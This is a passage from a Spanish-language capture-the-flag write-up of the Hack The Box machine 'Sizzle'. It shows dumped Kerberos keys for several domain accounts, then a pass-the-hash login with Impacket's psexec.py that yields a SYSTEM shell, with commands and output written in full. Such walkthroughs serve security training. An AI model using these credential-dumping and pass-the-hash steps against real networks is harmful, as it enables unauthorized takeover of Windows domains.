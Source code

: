 ```bash
amanda:des-cbc-md5:70ba677a4c1a2adf
mrlky:aes256-cts-hmac-sha1-96:b42493c2e8ef350d257e68cc93a155643330c6b5e46a931315c2e23984b11155
mrlky:aes128-cts-hmac-sha1-96:3daab3d6ea94d236b44083309f4f3db0
mrlky:des-cbc-md5:02f1a4da0432f7f7
sizzler:aes256-cts-hmac-sha1-96:85b437e31c055786104b514f98fdf2a520569174cbfc7ba2c895b0f05a7ec81d
sizzler:aes128-cts-hmac-sha1-96:e31015d07e48c21bbd72955641423955
sizzler:des-cbc-md5:5d51d30e68d092d9
SIZZLE$:aes256-cts-hmac-sha1-96:8cebafaae289be4be194f297651fb60f59b6e0bf26cde5a41621818177493482
SIZZLE$:aes128-cts-hmac-sha1-96:fff9c0512874a16740299cb032e11ba5
SIZZLE$:des-cbc-md5:9ead38efab62ef13
[*] Cleaning up... 
```

Hemos extraido la base de datos NTDS, vamos a conectarnos como administradores a la máquina.

```bash
❯ psexec.py Administrator@10.10.10.103 -hashes :f6b7160bfc91823792e0ac3a162c9267
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.103.....
[*] Found writable share ADMIN$
[*] Uploading file kHJRWEid.exe
[*] Opening SVCManager on 10.10.10.103.....
[*] Creating service pcAY on 10.10.10.103.....
[*] Starting service pcAY.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>
```

Ya hemos pwneado la máquina, espero que te haya servido.

